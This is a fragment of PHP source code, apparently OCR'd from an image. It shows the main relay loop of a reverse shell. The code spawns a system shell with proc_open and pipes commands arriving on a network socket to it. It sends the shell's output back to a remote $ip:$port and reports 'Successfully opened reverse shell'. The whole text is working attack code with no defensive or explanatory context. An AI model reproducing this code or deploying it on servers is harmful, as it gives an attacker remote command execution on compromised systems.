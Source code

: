 ```php

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

```